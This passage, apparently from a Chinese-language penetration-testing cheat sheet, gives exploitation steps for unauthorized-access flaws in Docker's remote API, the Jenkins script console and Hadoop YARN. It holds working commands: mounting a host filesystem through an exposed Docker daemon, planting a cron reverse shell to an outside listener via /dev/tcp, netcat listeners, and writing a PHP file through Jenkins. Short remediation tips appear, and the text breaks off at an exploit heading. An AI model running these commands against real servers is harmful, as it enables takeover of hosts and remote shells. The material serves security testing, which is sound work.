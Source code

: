 ```bash
sudo docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root

```bash
echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.214/1234 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

本地监听端口，获取宿主机shell

```
nc -lvp 1234
```

3、修复建议

- 对2375端口做访问控制

## Jenkins未授权访问

1、访问`http://www.xxx.com:8080/manage`

2、点击脚本命令行

```bash
println "whoami".execute().text
```

3、漏洞利用，写入webshell

```bash
new File ("/var/www/html/shell.php").write('<?php phpinfo(); ?>');
```

4、修复建议

- 升级版本
- 添加认证、设置强密码复杂度及账号锁定
- 避免把Jenkins直接暴露在公网

## Hadoop 未授权访问

Hadoop是一个由Apache基金会所开发的分布式系统基础架构，由于服务器直接在开放了 Hadoop 机器 HDFS 的 50070 web 端口及部分默认服务端口，黑客可以通过命令行操作多个目录下的数据，如进行删除，下载，目录浏览、命令执行等操作，危害极大

1、验证

访问 `http://192.168.18.129:8088/cluster`

2、通过REST API命令执行

```bash
在本地监听端口 >> 创建Application >> 调用Submit Application API提交

#本地监听9999端口
nc -lvp 9999
```

3、EXP
